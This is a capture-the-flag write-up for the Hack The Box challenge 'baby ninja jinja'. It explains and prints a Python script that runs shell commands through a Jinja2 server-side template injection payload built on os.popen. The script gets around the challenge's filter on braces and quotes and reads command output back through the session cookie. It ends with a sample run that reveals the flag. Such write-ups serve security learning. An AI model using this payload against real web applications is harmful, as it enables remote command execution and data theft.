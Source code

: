 # Hack The Box. Challenges. Web. baby ninja jinja

Challenge write-up: https://7rocky.github.io/en/ctf/htb-challenges/web/baby-ninja-jinja

### `ssti.py`

This script is made to obtain a limited interactive shell over Server-Side Template Injection (SSTI).

The challenge provides a way to enter an SSTI payload on Jinja2 without using `{{` or quotes (`"`, `'`). Hence, we must use `{% ... %}` blocks and use additional URL query parameters for strings.

The payload is not reflected in the HTTP response. The way we can exfiltrate information in this situation is adding the output of our commands to the session dictionary.

Having said that, this is the principal function of the script:

```python
def exec_cmd(host: str, cmd: str):
    params = {
        'name': '{% if session.update({request.args.c: cycler.__init__.__globals__.os.popen(request.args.cmd).read().decode()}) == 1 %}{% endif %}',
        'c': 'c',
        'cmd': cmd
    }

    res = requests.get(f'http://{host}', params)

    set_cookie = res.headers['Set-Cookie']
    session = re.findall(r'session=(.*?)\.', set_cookie)[0]

    try:
        content = json.loads(b64d(pad_b64(session)).decode())
        print(content['c'])
    except json.JSONDecodeError:
        print('Could not decode\n')
```

First, we see the SSTI payload, which updates the session dictionary and adds a key `c` (it comes from another URL query parameter). Then, it executes a system command with a common SSTI payload on Jinja2 (the command `cmd` comes from yet another URL query parameter).

When receiving the response, we take the cookie and extract the session object, which has our exfiltrated data encoded in Base64.

In order to avoid Base64 decoding errors, we must add a valid padding to the received data:

```python
def pad_b64(string: str) -> str:
    return string + '=' * (-len(string) % 4)
```

After that, we only extract the content we want and print it out.

The `main` function keeps asking for more commands to mimic a shell session:

```python
def main():
    hostname = sys.argv[1]

    while True:
        try:
            exec_cmd(hostname, input('$ '))
        except KeyboardInterrupt:
            exit()
```

This is an example of execution:

```console
$ python3 ssti.py 157.245.33.77:31650
$ whoami
nobody

$ ls
app.py
flag_P54ed
schema.sql
static
templates

$ cat flag_P54ed
HTB{b4by_ninj4s_d0nt_g3t_qu0t3d_0r_c4ughT}  
```
